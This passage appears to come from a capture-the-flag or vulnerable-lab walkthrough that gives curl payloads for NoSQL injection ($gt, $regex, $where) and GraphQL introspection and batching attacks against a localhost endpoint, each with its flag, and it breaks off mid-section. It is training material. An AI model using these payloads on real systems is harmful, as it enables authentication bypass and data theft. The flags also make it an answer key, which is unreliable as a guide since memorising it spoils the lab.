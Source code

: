 ### 3. NoSQL Injection Bypass Methods

#### Bypass Method 1: $gt Operator
**Vulnerability:** Basic $ne blocked but $gt allowed  
**Bypass:** Use greater-than operator for authentication bypass

**Exploitation:**
```bash
curl 'http://localhost:5000/api/vuln/nosql-injection?username={"$gt":""}'
# Flag: {NOSQL_GT_OPERATOR_BYPASS}
```

#### Bypass Method 2: $regex Operator
**Vulnerability:** Regex operators not sanitized  
**Bypass:** Use regex for pattern-based authentication bypass

**Exploitation:**
```bash
curl 'http://localhost:5000/api/vuln/nosql-injection?username={"$regex":"^a"}'
# Flag: {NOSQL_REGEX_INJECTION}
```

#### Bypass Method 3: $where JavaScript Execution
**Vulnerability:** $where clause allows JavaScript execution  
**Bypass:** Inject JavaScript code for authentication bypass

**Exploitation:**
```bash
curl 'http://localhost:5000/api/vuln/nosql-injection?username={"$where":"1==1"}'
# Flag: {NOSQL_WHERE_CODE_EXECUTION}
```

### 4. GraphQL Injection Bypass Methods

#### Bypass Method 1: Introspection Query
**Vulnerability:** Introspection not disabled in production  
**Bypass:** Query schema to discover hidden fields

**Exploitation:**
```bash
curl 'http://localhost:5000/api/vuln/graphql-injection?query={__schema{types{name}}}'
# Flag: {GRAPHQL_INTROSPECTION_BYPASS}
```

#### Bypass Method 2: Query Batching
**Vulnerability:** Multiple queries allowed in single request  
**Bypass:** Batch multiple queries to extract more data

**Exploitation:**
```bash
curl 'http://localhost:5000/api/vuln/graphql-injection?query=[{users{id}},{posts{title}}]'
# Flag: {GRAPHQL_BATCH_QUERY_BYPASS}
```

#### Bypass Method 3: Deep Nesting / Depth Limit Bypass
**Vulnerability:** No query depth limits enforced  
**Bypass:** Use deeply nested queries to access sensitive data
